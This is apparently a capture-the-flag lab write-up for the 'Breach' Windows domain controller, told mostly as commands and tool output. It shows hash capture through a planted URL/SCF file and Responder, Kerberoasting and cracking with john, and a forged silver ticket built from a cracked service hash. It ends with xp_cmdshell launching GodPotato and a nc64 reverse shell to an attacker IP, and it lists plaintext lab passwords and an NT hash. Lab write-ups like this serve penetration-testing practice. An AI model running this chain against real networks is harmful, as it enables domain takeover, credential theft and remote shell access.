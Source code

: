 
![](Breach_Cover.png)




```
[*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```


Guest Share is accessible with write permission !

```
└─# crackmapexec smb 10.10.119.39 -u guest -p '' --shares
```


![](Guest_Access_.png)


### URL FILE ATTACK

We can perform this attack when we got write access to any share.

Interested Victim clicks the url file , Boom We get  [hash](https://github.com/xct/hashgrab) !


![](INternet_Short.png)


![](scf_attack.png)


![](scf_attacked.png)


If someone clicks on the url we get hash ! Start Responder !

```
└─# responder -I tun0 -v
```

![](../MEDIA_/Responder_Hash.png)

If they use simple password , thats good !

![](Crack_Creds.png)




### SVC_MSSQL

Cool ! We got domain user and a lot of possibilities to enumerate.

```
└─# impacket-GetUserSPNs breach.vl/julia.wong:Computer1 -dc-ip 10.10.119.39 -request
```


![](MSSQL_hash.png)

Cracking the SPN . 

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt mssql_svc.hash
```

![](SPN_Cracked.png)



SERVICE TICKET CHA BHANNE --> GENERATE FUCKING SILVER TICKET !!



Convert password --< hash
```
└─# crackmapexec smb 10.10.119.39 -u svc_mssql -H 69596C7AA1E8DAEE17F8E78870E25A5C
```


Lookup for the domain sids:

```
└─# impacket-lookupsid breach.vl/svc_mssql:Trustno1@10.10.119.39 -domain-sids
```


Generate a Silver Ticket !
```
└─# impacket-ticketer -nthash 69596C7AA1E8DAEE17F8E78870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -spn 'MSSQLSvc/breach.vl' Administrator
```

Export It !
```
└─# export KRB5CCNAME=Administrator.ccache
```


Explore!
```
┌──(root㉿BHASHMA)-[~/BACK_TO_THE_GAME/BREACH]
└─# impacket-mssqlclient breach.vl -k -no-pass 
```


![](Svc_Mssql.png)


Upload GodPotato and nc for the attack !

```
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell C:\Users\Public\God.exe -cmd "cmd /c C:\Users\Public\nc64.exe 10.8.0.148 1337 -e C:\windows\system32\cmd.exe"
```

![](SYSTEM_.png)


WE OWN THE DC ! FOR PERSISTENCE WE CAN RUN ANY C2 !!




